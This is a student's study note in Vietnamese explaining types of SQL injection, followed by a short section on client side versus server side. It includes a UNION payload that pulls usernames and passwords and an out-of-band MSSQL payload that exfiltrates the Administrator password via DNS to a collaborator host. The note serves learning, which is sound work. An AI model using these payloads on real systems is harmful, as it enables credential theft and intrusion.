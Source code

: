 # 1. SQL Injection
- Theo em hiểu thì nó là 1 dạng lỗ hổng mà người dùng có thể đưa vào một đoạn SQL độc từ 1 vùng nhập nào đấy để sửa đổi truy vấn SQL của trang web gửi đi, làm cho truy vấn đấy sai.

### 1.1. Blind SQL Injection
- Với loại này, khi người tấn công chèn SQL vào đâu đó để lấy dữ liệu thì sẽ không có thông tin nào về kết quả của truy vấn SQL được trả về trong respond, cũng như là không thông báo lỗi, lỗi cú pháp SQL hay lỗi không tìm thấy bảng gì hết.
- Trong này thì gồm có dạng Boolean với dạng Time:
  + **Boolean**: Sử dụng SQL để đặt câu hỏi ở dạng "Yes/No", xong trang web sẽ có sự thay đổi nhất định nào đó, mình dựa vào đấy thì có thể từ từ phán đoán ra được thông tin mình cần. Ví dụ như đợt tuyển thành viên vừa rồi thì có 1 bài ở dạng này, khi đúng tên trong database (hay flag) thì nó sẽ hiện thông báo là `Found` còn nếu sai thì là `Not Found`, rồi từ đấy dò từ từ ra các ký tự của flag.
  + **Time**: Với dạng này thì là kiểu các phần thông báo lỗi hay thay đổi giao diện đều được xử lý oke rồi, nên khi mình thử với 1 truy vấn nào đấy thì có thể hoàn toàn không thấy sự thay đổi gì. Sử dụng các hàm SLEEP(), pg_sleep(),... để làm chậm đi mấy cái request mà mình nghi ngờ, kiểu mình sẽ gửi đi 1 truy vấn SQL hỏi với cái điều kiện A thì có đúng không, nếu đúng thì gửi trả lại response sau 5 giây, không đúng thì phản hồi ngay lập tức. Từ đó ta có thể phán đoán được sự đúng sai như dạng `Boolean`.

### 1.2. UNION-Based SQLi:
- Thường được dùng để hợp các kết quả từ nhiều bảng lại với nhau.
- Dùng `UNION SELECT...` để gắn thêm 1 bảng mà mình muốn vào kết quả của truy vấn gốc, với điều kiện là số lượng cột phải bằng nhau.
- Ví dụ: Có truy vấn gốc `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

  Với việc nhập vào phần `category` thì em muốn lấy tất cả các tài khoản mật khẩu từ trang đó, thì em chèn thêm là `' UNION SELECT username, password FROM users--`

  Khi đó truy vấn được gửi đi sẽ là `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users`, có nghĩa là ngoài việc lấy tất cả các sản phầm trong danh mục `Gifts` thì nó còn lấy thêm cả `username` AND `password`.

### 1.3. Error-Based SQLi:
- Được dùng khi mà gửi đi 1 truy vấn và server, database trả về với 1 thông báo lỗi, từ thông báo này có thể thu thập được các thông tin như cấu trúc bảo, tên cột,... Rồi từ mấy cái lỗi đấy, kẻ tấn cộng lợi dụng nó để lấy được thông tin mà họ muốn.

### 1.4. Out-of-band SQLi (OAST):
- Là kỹ thuật mà dùng để chèn một truy vấn độc hại vào SQL, khiến server gửi một request HTTP hoặc DNS đến một địa chỉ do kẻ tấn công kiểm soát.

- Ví dụ: Giả sử có truy vấn này `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

  Thì nó đã lấy pass của `Admintrator` xong gán vào đầu của url `.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a`. Ví dụ pass là `admin1234` thì cái URL được server gửi request đi sẽ là `admin1234.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a`.

  Kẻ tấn công sẽ theo dõi các request được gửi đến, và họ có thể thấy được password của người dùng `Admintartor` là `admin1234`.

# 2. Phân biệt Client Side với Server Side
- Server là 1 cái máy chủ có thể tương tác với database, thực hiện chức năng lấy dữ liệu cần thiết gửi về cho client.

- Client là mấy cái phần mềm trên điện thoại máy tính có thể là browser hay một phần mềm nào đấy có khả năng gửi request đến server.

- Ví dụ như 1 người vào trang youtube, thì là lúc client gửi request đến phía server, server xử lý với database rồi gửi trả thông tin về cho client như các video thịnh hành, video của người dùng,...

## 2.1. Server Side
- Mọi thứ được thực hiện trên phía server, khi người dùng vào trang web thì trang web sẽ gửi đi request, phía server nhận được request thì sẽ render ra HTML, CSS hoàn chỉnh rồi gửi trả cho client, việc của client là show lên những cái mà phía server gửi đến.

## 2.2. Client Side
- Client gửi request tới server thì bên server vẫn tạo ra mấy cái file như HTML, CSS cơ bản, sau đấy server gửi về cho client. Khi này, các file như javascript ở phía client sẽ lấy dữ liệu từ bên database rồi render giao diện.
